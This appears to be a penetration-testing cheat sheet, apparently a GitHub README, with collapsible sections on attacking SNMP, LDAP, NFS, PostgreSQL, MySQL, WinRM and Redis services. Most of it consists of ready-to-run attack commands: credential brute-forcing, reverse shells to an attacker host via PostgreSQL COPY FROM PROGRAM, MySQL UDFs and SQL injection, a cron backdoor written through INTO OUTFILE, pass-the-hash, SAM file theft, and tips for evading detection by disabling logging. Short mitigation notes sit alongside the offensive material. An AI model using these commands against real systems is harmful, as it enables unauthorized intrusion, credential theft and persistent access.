5. SNMP-check
bash

     snmp-check -p 161 -c public <target-ip>
Provides a human-readable summary of SNMP results.

6. Braa (High-speed SNMP scanner)
bash

       braa public@<target-ip>:.1.3.6.*
Mass SNMP scanning tool, lightweight, does not rely on Net-SNMP libs.

🧨 Exploitation & Brute Force
7. Metasploit - snmp_enum
bash

    use auxiliary/scanner/snmp/snmp_enum
    set RHOSTS <target-ip>
    set community public
    run
8. Hydra
bash

       hydra -P pass.txt <target-ip> snmp
-P: Password list (community strings)

9. Metasploit - snmp_login
bash

       use auxiliary/scanner/snmp/snmp_login
       set RHOSTS <target-ip>
       set PASS_FILE pass.txt
       run
10. Medusa
bash

        medusa -h <target-ip> -P pass.txt -M snmp
11. Patator
bash

        patator SNMP_login host=<target-ip> community=FILE0 0=pass.txt
12. Nmap NSE Script
bash

        nmap -sU -p 161 <target-ip> --script snmp-brute --script-args snmp-brute.communitiesdb=pass.txt
13. Onesixtyone
bash

        onesixtyone -c pass.txt <target-ip>
Simple and efficient brute-force tool.

🧾 Useful Resources
Common SNMP Community Strings Wordlist:
fuzzdb SNMP wordlist[https://raw.githubusercontent.com/fuzzdb-project/fuzzdb/master/wordlists-misc/wordlist-common-snmp-community-strings.txt]

Extended MIB Enumeration:
Explore additional SNMP fields via extended MIBs
NET-SNMP-EXTEND-MIB[https://circitor.fr/]

🛠️ Tips for Red Teamers & Pentesters
SNMP Read-Only (RO) can leak:

Usernames and services

System details

Running processes

Network interfaces

Potential credentials (sometimes encoded or plaintext)

SNMP Read-Write (RW) access is highly critical:

Can change configurations

Reboot devices

Inject malicious configuration (e.g., redirect logs, change SNMP traps)

Use snmp-check and braa for fast reconnaissance, then deep dive with snmpwalk or Metasploit.

SNMP often reveals network topology and firewall rules via MIBs.
https://hacktricks.boitatech.com.br/pentesting/pentesting-snmp/snmp-rce

</details>

<details>
<summary>10.📚 LDAP (Lightweight Directory Access Protocol)389,636</summary>
 <br>
LDAP is a protocol used to access and maintain directory information. It is commonly used for managing user information and authentication.

**Enumerating LDAP:**

```bash

ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com"
ldapsearch -x -H ldap://<IP>:<port> # try on both ldap and ldaps, this is first command to run if you dont have any valid credentials.

ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
#CN name describes the info we're collecting
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"

#windapsearch.py
#for computers
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --computers

#for groups
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --groups

#for users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --da

#for privileged users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --privileged-users

```

You can also enumerate users and gather information from LDAP directories.

**Using Metasploit for LDAP enumeration:**

```bash

msfconsole
use auxiliary/gather/ldap_query
set RHOSTS <IP>
set BASE "dc=example,dc=com"
run

```

</details>
<details>
<summary>11.📦 NFS (Network File System) port 2049</summary>
 <br>
NFS allows a system to share its files with other systems over a network. It enables the mounting of remote file systems and interaction with them as if they were local.

**Example Nmap command to scan for NFS services:**

```bash

nmap -p2049 -sV 192.168.188.131

```

If NFS is exposed publicly, it can be mounted to the local machine and files can be accessed.

**Mounting NFS share:**

```bash

sudo mount 192.168.188.131:/ /home/kali/Downloads/nfs -nolock

```

This allows you to access shared files from the remote NFS server.
![image](https://github.com/user-attachments/assets/34ad4003-778a-4011-b5ee-1c63e17adf4a)

**Troubleshooting NFS Mount Permission Issues:**

If you encounter **Permission Denied**, ensure that you have the correct NFS version and permissions configured.
https://blog.christophetd.fr/write-up-vulnix/
**To use NFSv3 (if needed):**

```bash

sudo mount -t nfs -o vers=3 192.168.188.137:/home/vulnix /home/kali/Downloads/nfs/home/vulnix -nolock

```
Let’s take a closer look at the permissions. 
```bash
ls -ld vulnix
```
If only Particuler user or group have access to the Path:
create a user group:
```jsx
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --groups vulnix_group vulnix
sudo -u vulnix ls -l vulnix
```

![image](https://github.com/user-attachments/assets/c5978efc-c909-48b1-8165-5705d484ef0a)


DEBUG

```jsx
id vulnix
```

Ensure it outputs:

```jsx
uid=2008(vulnix) gid=2008(vulnix_group) groups=2008(vulnix_group)
```

If the UID or GID is incorrect, you must delete and recreate the user with:

```jsx
sudo userdel vulnix
sudo groupdel vulnix_group
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --gid 2008 --groups vulnix_group vulnix
```

Now, try accessing the directory as `vulnix_user`:
![image](https://github.com/user-attachments/assets/90546368-1291-4e7a-b7c9-52a148eef779)

</details>


<details>
<summary>12. PostgreSQL 5432</summary>
 <br>
 PostgreSQL, also known as Postgres, is an advanced open-source relational database used across major platforms (Linux, Windows, Mac). It ships by default with macOS and is often used in enterprise backends.

PostgreSQL includes powerful functionality such as user-defined functions, server-side programming, and even the ability to execute system commands — which, when misconfigured, becomes a privilege escalation or RCE vector.

🎯 Attack Goals
Gain remote shell access

Escalate privileges (via SYSTEM/root or postgres user)

Lateral movement within internal networks

🧪 Step-by-Step Exploitation
🔐 Step 1: Brute-force PostgreSQL Credentials (if creds not known)
bash

    hydra -L /usr/share/wordlists/metasploit/postgres_default_user.txt \ -P /usr/share/wordlists/metasploit/postgres_default_pass.txt \ <target-ip> postgres
👉 This attempts default user:pass combinations like postgres:postgres.

📥 Step 2: Log in with psql or Metasploit module
bash

    psql -h <target-ip> -U postgres -W
or via Metasploit:

bash

    use auxiliary/scanner/postgres/postgres_login
☠️ Step 3: Confirm Privileges (Key Requirement!)
This RCE works only if:

The user is superuser or

The user has pg_execute_server_program role

Check roles:

sql

    \du
Look for:

pgsql

    postgres | Superuser, Create role, Create DB, Replication, Bypass RLS
or:

sql

    SELECT usesuper, usename FROM pg_user;
💥 Step 4: Achieve Code Execution via COPY FROM PROGRAM
This PostgreSQL feature allows importing data from an OS command.

Example: Windows Reverse Shell (PowerShell)
sql

    CREATE TABLE cmd_out(data text);
    COPY cmd_out FROM PROGRAM 'powershell -EncodedCommand <Base64Payload>';
👉 Base64Payload is your reverse shell (msfvenom -p windows/x64/powershell_reverse_tcp)

Linux Example:
sql

    COPY cmd_out FROM PROGRAM '/bin/bash -c "bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1"';
🛠 Tools to generate shell payloads:

bash

    msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw
🛠️ Alternative Methods of Exploitation
1. User-Defined Functions (UDF) via Shared Object Libraries
Upload a malicious .so (Linux) or .dll (Windows) and load it using:

sql

    CREATE FUNCTION sys_exec(text) RETURNS int
    AS '/tmp/malicious.so', 'exec'
    LANGUAGE C STRICT;
    SELECT sys_exec('nc -e /bin/bash <attacker-ip> <port>');
Requires superuser privileges and shared_preload_libraries.

2. Writable Filesystem Abuse
Check writable paths:

sql

    COPY cmd_out TO '/tmp/test.txt';
If successful, you can:

Write malicious scripts
Drop cron jobs (Linux)
Schedule tasks (Windows)

3. SQL Injection in Web Applications
If PostgreSQL is the backend and the app is vulnerable to SQLi:

sql

    '; COPY cmd_out FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"' --
Useful if you don’t have creds but have SQLi in a web app.

🧼 Cleanup (Optional)
sql

    DROP TABLE cmd_out;
🔒 Detection & Mitigation
Defense Area	Recommendation
🔐 Privilege Restriction	Avoid granting pg_execute_server_program or superuser to non-admin users
🔍 Logging	Enable query logging: log_statement = 'all'
🛡️ Disable COPY PROGRAM	Use PostgreSQL --disable-copy-program or AppArmor/SELinux
📦 Application Security	Sanitize SQL inputs to prevent injection
🔑 Credential Hygiene	Avoid default credentials and enforce strong auth
🔁 Regular Audits	Monitor user roles (\du) and extensions (\dx)

📌 Summary
Stage	Command
Brute Force	hydra -L ... -P ... <ip> postgres
Check Privs	\du or SELECT usesuper FROM pg_user;
Reverse Shell	COPY ... FROM PROGRAM 'bash ...'
UDF Execution	CREATE FUNCTION ... with .so/.dll
SQLi RCE	Inject COPY command via vulnerable web app

📎 Reference
https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5
Greenwolf Security – PostgreSQL RCE via COPY

Metasploit Modules

exploit/multi/postgres/postgres_copy_from_program_cmd_exec

exploit/windows/postgres/postgres_payload
</details>
<details>
<summary>13. MYSQL Port 3306</summary>
 <br>
🔎 Step 1: Enumeration
Start with identifying whether port 3306 (default MySQL port) is open:

bash

    nmap -p3306 -sV -sC <target-ip>
Add aggressive scanning options for version detection and default script scans:

bash

    nmap -p3306 --script mysql* -sV <target-ip>
This will also try:

Default creds

Enumerate MySQL users

Check for anonymous access

🔑 Step 2: Brute Forcing MySQL Credentials
bash

    hydra -L users.txt -P pass.txt <ip> mysql
Alternatively, you can use medusa:

bash

    medusa -h <ip> -u root -P pass.txt -M mysql
Or use ncrack (especially good for fast brute-forcing):

bash

    ncrack -p 3306 -U users.txt -P pass.txt <ip>
🧠 Step 3: Manual Login (Once Valid Credentials Are Found)
bash

    mysql -h <ip> -u <user> -p
Once logged in, you can:

List databases: show databases;

Use a DB: use mysql;

Check users: select user, host, authentication_string from mysql.user;

⚡ Step 4: Exploitation via Metasploit
A. Run SQL Queries Directly
bash

    msfconsole -q
    use auxiliary/admin/mysql/mysql_sql
    set rhosts <target-ip>
    set username <user>
    set password <pass>
    set sql show databases;
    run
B. Dump Password Hashes
bash

    use auxiliary/scanner/mysql/mysql_hashdump
    set rhosts <target-ip>
    set username <user>
    set password <pass>
    run
C. Run Commands via UDF (User Defined Function) Injection (for RCE)
bash

    use exploit/windows/mysql/mysql_udf_payload
    set rhosts <target-ip>
    set username root
    set password toor
    set payload windows/meterpreter/reverse_tcp
    set lhost <attacker-ip>
    set lport 4444
    run
✅ This exploit creates a custom function using a shared library (.dll or .so) and then calls it through SQL to gain RCE.

🧪 Step 5: Manual RCE via User-Defined Functions (UDF)
If file_priv is granted, you can:

Upload a malicious .dll or .so UDF file.

Register it with SQL:

sql

    CREATE FUNCTION do_system RETURNS integer SONAME 'lib_mysqludf_sys.so';
    SELECT do_system('nc <attacker-ip> 4444 -e /bin/bash');
On Windows:

sql

    SELECT do_system('powershell -c <reverse_shell_payload>');
🪵 Step 6: Post Exploitation
Dump user tables:

sql

    select user, password from mysql.user;
Look for saved credentials or tokens in application databases

Exfiltrate configuration files, secrets, keys

🛡️ Detection & Mitigation
Disable root login from remote IPs (bind-address=127.0.0.1 in my.cnf)

Enforce strong passwords and remove default credentials

Regularly audit MySQL users and their privileges

Monitor for signs of brute-force (slow query logs, login failures)

Consider enabling TLS encryption for connections

Use MySQL roles to minimize privilege exposure

🔁 Alternatives Tools for MySQL Pentesting
Tool	Purpose
sqlmap	Exploit SQL injection vulnerabilities
mysql_enum (NSE Script)	MySQL database enumeration
DBPwAudit	Fast credential bruteforcer
mariadb-client	Compatible client for login and testing
Metasploit	Multiple auxiliary and exploit modules

🧷 Additional Notes
MySQL with misconfigured permissions (e.g., file_priv, secure_file_priv) allows file upload or command execution

Some versions allow writing to crontab via SELECT ... INTO OUTFILE if not locked down

sql

    SELECT '*/1 * * * * root nc <ip> 4444 -e /bin/bash' INTO OUTFILE '/etc/cron.d/mysqlbackdoor';

</details>

<details>
<summary>14. WinRM 5985</summary>
 <br>
📌 What is WinRM?
Windows Remote Management (WinRM) is Microsoft’s implementation of the WS-Management protocol based on SOAP. It allows remote management of Windows systems and is enabled by default in some environments.

Port 5985 → WinRM over HTTP (unencrypted unless message-level encryption is used)

Port 5986 → WinRM over HTTPS (encrypted)

🔎 Initial Enumeration
Check if WinRM is exposed:

bash

    nmap -p 5985,5986 -sV -Pn <target-ip> --script http-winrm*
Use nmap with WinRM-specific NSE scripts:

bash

    nmap -p5985 --script=winrm-auth <target-ip>
Or check manually using curl:

bash

    curl -s -X POST http://<ip>:5985/wsman
If the response contains wsman, the service is alive.

🧪 Metasploit Enumeration
Check for Supported Auth Methods:
bash

    msfconsole
    use auxiliary/scanner/winrm/winrm_auth_methods
    set RHOSTS <target-ip>
    run
🔐 Brute-Force WinRM Credentials
1. Metasploit Module
bash

       use auxiliary/scanner/winrm/winrm_login
       set RHOSTS <target-ip>
       set user_file users.txt
       set pass_file passwords.txt
       set DOMAIN WORKSTATION
       run
2. Password Spray with nxc (lightweight & fast):
bash

       nxc winrm <ip> -u users.txt -p passwords.txt
🧠 Remote Shell with Valid Credentials
1. evil-winrm (Preferred Tool)
bash

       evil-winrm -i <target-ip> -u <user> -p <password>
Supports:

Upload/download
Powershell scripting
Proxy support
Kerberos & pass-the-hash (see below)

2. Docker Evil-WinRM (for Linux users)
bash

       docker run -it --rm --name evil-winrm --entrypoint evil-winrm oscarakaelvis/evil-winrm -i <ip> -u <user> -p <password>
🧪 Alternative Shells
1. PowerShell Remoting (Linux to Windows)
Using PowerShell NTLM Docker:

bash

    docker run -it quickbreach/powershell-ntlm
    $creds = Get-Credential
    Enter-PSSession -ComputerName <ip> -Authentication Negotiate -Credential $creds
2. Ruby WinRM Shell Script
Download & configure this Ruby script:

bash

    wget https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell_with_upload.rb
    nano winrm_shell_with_upload.rb  # Set IP, creds
    ruby winrm_shell_with_upload.rb
3. Powershell Empire / Covenant
You can use tools like:

Empire

Covenant

PSSharp
To execute WinRM-based agents if lateral movement or persistent C2 is required.

🧯 Pass-the-Hash with Evil-WinRM
If you have an NTLM hash, use:

bash

    evil-winrm -i <target-ip> -u <user> -H <NTLM_hash>
Or use Impacket's wmiexec.py or psexec.py as alternatives.

🔁 Lateral Movement
If you compromise a user with WinRM access on other systems:

bash

    evil-winrm -i <target-2> -u compromised_user -p password
Or use built-in PS remoting:

powershell

    Invoke-Command -ComputerName target2 -ScriptBlock { whoami } -Credential (Get-Credential)
📤 Post Exploitation with Evil-WinRM
bash

    upload <local-file> C:\Users\Public\payload.exe
    download C:\Windows\System32\config\SAM
    scripts
Built-in modules:

BloodHound
PowerView
SharpHound
PowerUp

🕵️ Detection Evasion Tips
Avoid brute-force from same IP: use --proxy or TOR routing

Disable PowerShell logging where possible

Modify Evil-WinRM user-agent string if using HTTPS

Consider using Kerberos authentication to reduce logs (with --auth kerberos)

🛡️ Defensive Notes / Mitigations
Disable WinRM if not needed:

powershell

    Disable-PSRemoting -Force
Use HTTPS + Cert-based Auth if enabled

Enable logging (Microsoft-Windows-WinRM/Operational)

Use GPO to restrict which users can access via WinRM

Monitor for new evil-winrm.exe or PS remoting activity

Limit "Remote Management Users" group

🧰 Related Tools Summary
Tool	Use
evil-winrm	Remote PS shell
nxc	Fast password spray
crackmapexec	SMB/WinRM enumeration
PSRemoting	Native method
Impacket	Pass-the-hash over WinRM (via SMB/WMI/PSEXEC)
wmiexec.py	WMI exec using hashes
pywinrm	Python-based WinRM library
Metasploit	Brute-force, auth check

</details>
<details>
<summary>15. redis</summary>
 <br>
Redis Basics
Default Port: 6379/TCP (but can also run on other ports)

Default Auth: None (older versions) → Newer versions require password if configured in redis.conf

Service Purpose: In-memory key-value database, often used for caching.

Danger: If exposed to the internet without authentication, it can be used for:

Data theft

RCE via module loading

Persistence (cron jobs, SSH keys)

Privilege escalation (local)

2️⃣ Enumeration
Check if Redis is open
bash

nmap -p 6379 --script redis-info <target>
Example output will show:

Redis version

Role (master/slave)

OS info

Config parameters

Connect to Redis
bash

redis-cli -h <IP> -p 6379
If password required:

bash

redis-cli -h <IP> -p 6379 -a <password>
Gather Information
Inside redis-cli:

redis

INFO           # Shows server, clients, memory, persistence, stats, replication, CPU, cluster, keyspace
CONFIG GET *   # View all configuration parameters
KEYS *         # List all keys
GET <keyname>  # Get value for a key
Bruteforce Password
bash

medusa -h <IP> -u "" -P /usr/share/wordlists/rockyou.txt -M redis
or

bash

hydra -P rockyou.txt redis://<IP>

for exploit try :

    https://github.com/n0b0dyCN/redis-rogue-server?tab=readme-ov-file
founf few issues and added few thing to get the .so file

Fix Radis Debug:
add the following 

    #include <string.h>     // For strlen, strcat
    #include <arpa/inet.h>  // For inet_addr

or use alternat payload: https://github.com/Ridter/redis-rce

</details>
